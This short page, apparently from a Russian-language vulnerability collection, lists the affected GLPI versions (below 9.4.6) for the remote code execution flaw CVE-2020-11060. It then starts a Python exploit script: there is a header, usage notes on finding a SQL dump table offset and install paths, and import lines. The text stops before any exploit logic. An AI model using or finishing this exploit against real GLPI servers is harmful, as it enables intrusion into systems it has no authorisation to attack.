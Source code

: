 <languages />

Затронутая версия
-----------------

    Version: < 9.4.6

EXP
---

    # Exploit Title: GLPI 9.4.5 - Remote Code Execution (RCE)
    # Exploit Author: Brian Peters
    # Vendor Homepage: https://glpi-project.org
    # Software Link: https://github.com/glpi-project/glpi/releases
    # Version: < 9.4.6
    # CVE: CVE-2020-11060

    # Download a SQL dump and find the table offset for "wifinetworks" with
    # cat <sqlfile> | grep "CREATE TABLE" | grep -n wifinetworks
    # Update the offsettable value with this number in the create_dump function
    # The Nix/Win paths are based on defaults. You can use curl -I <url> and use md5sum to find the path based
    # on the Set-Cookie hash.

    #!/usr/bin/python

    import argparse
    import json
    import random
    import re
    import requests
    import string
    import sys
    import time
    from datetime import datetime
    from lxml import html
